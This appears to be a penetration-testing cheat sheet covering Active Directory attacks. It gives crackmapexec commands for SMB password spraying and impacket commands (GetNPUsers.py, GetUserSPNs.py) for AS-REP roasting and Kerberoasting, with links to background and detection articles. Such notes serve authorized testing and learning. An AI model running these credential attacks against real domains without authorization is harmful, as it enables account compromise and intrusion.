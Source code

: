 ## Miscellaneous Attacks In No Particular Order

**SMB Password Spraying**

When You have a working password and a list of userames, or a working username and a list of passwords, ``crackmapexec`` makes testing your credentials trivial.

```bash
crackmapexec smb <IP> -u <USERLIST> -p '<PASS>' --continue-on-success
crackmapexec smb <IP> -u '<USER>' -p <PASSLIST> --continue-on-success
# Authenticate with an NT hash
crackmapexec smb <IP> -u '<USER>'-H '<NT_HASH>' --continue-on-success 
```

**AS-REP Roasting**

AS-REP roasting is a technique that allows retrieving password hashes for users that have don't require Kerberos preauthentication. ``impacket`` has a utility that makes this trivial for us. I could only do a bad job explaining this attack, so I've linked much better resources below. It is important to note that this is not found often, if at all, in real world engagements.

```bash
python3 GetNPUsers.py <DOMAIN>/ -dc-ip <IP> -no-pass -usersfile <USERLIST>
```

- [Roasting AS-REPS](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)
- [AS-REP Roasting](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)

**Kerberoasting**

Kerberoasting is a method for extracting service account credentials from Active Directory as a notmal user. Again, [AD Security](https://adsecurity.org/) has an insane amount of content that goes in depth to what this is, how it works, and when to use it. I won't even bother going into the detail's of the attack here, but articles from them are linked below.

``impacket`` has a utility that makes this trivial for us, ``GetUserSPNs.py``.


```bash
# Normal Authentication
python3 GetUserSPNs.py -request -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -save -outputfile hashes.txt

# Authentication with NT and LM Hashes
python3 GetUserSPNs.py -request -dc-ip <IP> -hashes <LM_HASH>:<NT_HASH> <DOMAIN>/<USER> -save -outputfile hashes.txt
```

If the DC is configured with UserAccountControl setting “Do not require Kerberos preauthentication” enabled, it's possible to request and receive a ticket to crack without a valid account on the domain. TL;DR You don't need a passsword.

```bash
python3 GetUserSPNs.py -request -dc-ip <IP> <DOMAIN>/<USER> -save -outputfile hashes.txt
```

- [Cracking Kerberos TGS Tickets Using Kerberoast](https://adsecurity.org/?p=2293)
- [Dectecting Kerboasting Activity](https://adsecurity.org/?p=3458)
- [Kerberos Overview](https://adsecurity.org/?p=227)

